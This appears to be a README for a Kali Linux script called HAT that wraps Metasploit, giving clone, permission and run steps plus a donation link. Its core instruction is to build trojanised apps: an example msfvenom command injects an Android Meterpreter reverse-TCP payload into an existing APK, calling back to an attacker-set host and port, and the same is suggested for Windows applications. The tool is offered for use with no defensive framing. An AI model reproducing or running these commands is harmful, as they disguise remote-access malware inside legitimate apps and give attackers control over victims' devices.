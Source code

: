 HAT PROJECT for KALI LINUX

*Clone - git clone https://github.com/BLACKRATTX/HAT-Metasploit-Reverse-Engineer-Tools

*Directory - cd /root/HAT-Metasploit-Reverse-Engineer-Tools

*Give permissions - chmod +x HAT.sh

*Execute - sh HAT.sh

*Generate the payloads with msfvenom -x command using existing android/windows applications.

*Example-  msfvenom -x /sdcard/test.apk -p android/meterpreter/reverse_tcp LHOST=0000.0.0.0 LPORT=4444 -o /sdcard/payload.apk


"IF YOU LIKE MY HARD WORK, GIMME A CUP OF COFFEE"

DONATE ME: https://www.paypal.me/blackratt505
